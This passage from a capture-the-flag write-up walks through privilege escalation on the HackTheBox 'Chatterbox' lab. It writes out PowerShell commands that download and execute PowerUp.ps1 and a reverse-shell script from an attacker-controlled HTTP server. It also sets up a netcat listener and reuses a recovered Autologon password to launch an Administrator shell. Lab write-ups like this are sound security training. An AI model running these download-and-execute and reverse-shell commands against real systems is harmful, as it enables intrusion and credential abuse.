 
## Privilege Escalation

### PowerUp

Now that we're solid on the target, let's enumerate with `PowerUp.ps1`. As before, we'll need to add the below command to the bottom of the script so that it auto-execute4s.

```powershell
Invoke-AllChecks
```

We can call it directly from our existing HTTP server with the below Powershell command.

```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.15:9090/PowerUp.ps1')
```

Once the script finishes, we can review the findings. As shown below, we find an Autologon entry in the registry for `Alfred`, with a password of `Welcome1!`. Nothing else shows up.

![](/assets/htb-chatterbox/powerup_autologin.png)

### Run process as Adminstrator

At this point, we're kind of stuck. We have credentials for `Alfred`, but we're already in a shell as him. The AChat service was the only ports found, so there's nothing else to really enumerate. It's likely that the intended way forward is via password reuse on the Administrator account. If this is the case, then we should be able to use the PowerShell `Start-Process` cmdlet to kick off an application using these credentials. Since we're already working in Powershell, and have a working reverse shell script, let's use that to our advantage.

First, let's make a copy of `revshell.ps1` and call it `revshell2.ps1`. Modify the command at the end to point to port 7600 instead of port 7500, which we're already using.

Next, open a listener on your local machine with `nc -lvnp 7600`.

Finally, we'll need to specify some local variables in our existing PS session, as Powershell doesn't play nice with passing credentials in plain text. In the example below, the `$secPass` variable saves the password. It's then passed to the `$creds` variable, which contains both the username we'll be using and the previously set `$secPass` variable. The `Start-Process` cmdlet is then called, running Powershell, with arguments set to download `revshell2.ps1` from our HTTP server. The `$creds` variable is finally passed to the cmdlet, which will launch it as `Administrator`, if in fact the password is being reused.

```powershell
$secPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('Administrator', $secPass)
Start-Process -FilePath powershell -argumentlist "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.15:9090/revshell2.ps1')" -Credential $creds
```
